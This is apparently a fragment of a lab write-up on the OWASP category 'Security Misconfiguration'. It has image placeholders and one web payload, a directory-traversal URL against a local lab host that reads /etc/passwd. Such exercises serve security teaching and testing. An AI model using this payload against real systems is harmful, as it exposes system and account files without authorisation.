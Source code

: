 #### A5 : Security Misconfiguration

![](images/5/1.png)

![](images/5/2.png)

![](images/5/3.png)

![](images/5/4.png)

- Payload

```
http://172.17.0.1:8899/a5.php?fname=../../../../etc/passwd
```